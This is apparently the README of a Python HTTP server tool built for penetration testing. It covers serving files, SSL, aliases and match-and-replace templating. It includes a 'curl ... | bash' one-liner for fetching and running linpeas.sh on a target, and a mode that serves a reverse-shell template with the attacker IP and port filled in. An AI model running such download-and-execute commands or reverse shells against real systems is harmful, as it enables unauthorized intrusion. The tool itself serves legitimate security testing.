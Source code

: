 # http-server

> Extension for python's http server. It eases serving content, supports SSL too.

## Usage

```
usage: server.py [-h] [--bind addr] [--verbose] [--ssl] [--kv K1=V1:K2=V2] [index] [port]

positional arguments:
  index                 Specify content to serve, defaults to current directory
  port                  Specify alternate port, default: 9000

optional arguments:
  -h, --help            show this help message and exit
  --bind addr, -b addr  Specify alternate bind address, default: 0.0.0.0
  --verbose, -v         Increase verbosity, print request
  --ssl, -ssl           Use SSL
  --kv K1=V1:K2=V2      Specify match-and-replace rules
```

### 1. Serve static content

> If no arguments are specified, it serves files from the current directory under the port and interface specified in [config.json](config.json).

```bash
$ alias serve="../path-to/http-server/server.py"
$ serve /example/directory
```

- If a file is specified as first argument, the option for copying the download command is provided based on the file
  extension:

```bash
$ serve /path/to/linpeas.sh 
Serving /path/to/linpeas.sh at http://0.0.0.0:9000
Copy 'curl -k -s http://0.0.0.0:9000 | bash' to clipboard? [Enter] 
Copied ✔️
```

- The above command can be shortened as:

```bash
$ serve lp
```

given the following entry in [config.json](config.json):

```json
{
  "alias": {
    "lp": "/path/to/linpeas.sh"
  }
}
```

### 2. Serve dynamic content

> Reverse shell, template: [shell.sh](core/shell.sh)

```bash
$ serve rev --kv REPLACE_IP=$ip:REPLACE_PORT=9000
```
